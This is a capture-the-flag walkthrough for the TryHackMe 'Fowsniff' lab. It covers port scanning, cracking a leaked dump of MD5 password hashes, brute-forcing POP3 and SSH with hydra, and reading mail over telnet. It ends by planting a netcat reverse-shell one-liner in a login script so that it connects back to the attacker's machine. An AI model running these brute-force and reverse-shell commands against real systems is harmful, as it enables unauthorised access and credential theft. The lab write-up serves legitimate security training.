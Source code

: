 # Fowsniff CTF

**Room Link:** [https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (26) (1) (1).png" alt=""><figcaption></figcaption></figure>

The homepage mentioned there was an attack. If you go to their twitter page the hacker says he dumped all the users password in pastebin. When I did this writeup the pastebin had been taken down so I just took it from another walkthrough.

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

```



**Kali**



```
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (15) (1) (2).png" alt=""><figcaption></figcaption></figure>



```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```







### TCP/110 - POP3

**Kali**

```
hydra -L users2 -P pass.txt -f $VICTIM pop3 -V
```

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 1
```

<figure><img src="../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 2
```

<figure><img src="../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -L users2 -p "S1ck3nBluff+secureshell" $VICTIM -t4 ssh
```

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
id
groups
find / -type f -group users 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f" >> /opt/cube/cube.sh
```

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (36) (2).png" alt=""><figcaption></figcaption></figure>





























